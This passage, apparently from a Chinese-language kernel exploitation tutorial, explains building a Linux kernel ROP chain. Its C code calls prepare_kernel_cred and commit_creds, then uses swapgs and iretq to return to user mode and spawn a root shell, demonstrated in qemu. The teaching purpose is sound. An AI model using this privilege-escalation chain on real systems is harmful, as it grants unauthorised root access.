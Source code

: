 这里要注意的是vmlinux必须是从内核bzImage镜像解压出来的，如果不是一一匹配的bin文件，那么获取的iretq地址将会错误，导致ROP链并没有真正执行iretq指令。

栈空间的布局可以见案例中代码（当然所有的offset、codebase都需要根据特定的内核binary进行重新计算）：

{% highlight c %}

save_state();

fake_stack = (unsigned long *)(stack_addr);

*fake_stack ++= 0xffffffff810c9ebdUL; /* pop %rdi; ret */

fake_stack = (unsigned long *)(stack_addr + 0x11e8 + 8);

*fake_stack ++= 0x0UL;                  /* NULL */
*fake_stack ++= 0xffffffff81095430UL;   /* prepare_kernel_cred() */
*fake_stack ++= 0xffffffff810dc796UL;   /* pop %rdx; ret */
*fake_stack ++= 0xffffffff81095196UL;   /* commit_creds() + 2 instructions */
*fake_stack ++= 0xffffffff81036b70UL;   /* mov %rax, %rdi; call %rdx */

*fake_stack ++= 0xffffffff81052804UL;   /* swapgs ; pop rbp ; ret */
*fake_stack ++= 0xdeadbeefUL;           /* dummy placeholder */

*fake_stack ++= 0xffffffff81053056UL;   /* iretq */
*fake_stack ++= (unsigned long)shell;   /* spawn a shell */
*fake_stack ++= user_cs;                /* saved CS */
*fake_stack ++= user_rflags;            /* saved EFLAGS */
*fake_stack ++= (unsigned long)(temp_stack+0x5000000);  /* mmaped stack region in user space */
*fake_stack ++= user_ss;                /* saved SS */

{% endhighlight %}

最后，看一下利用qemu运行kernel rop代码的效果：
![kernel-rop](http://7xwdx7.com1.z0.glb.clouddn.com/qemu-kernel-rop.png)
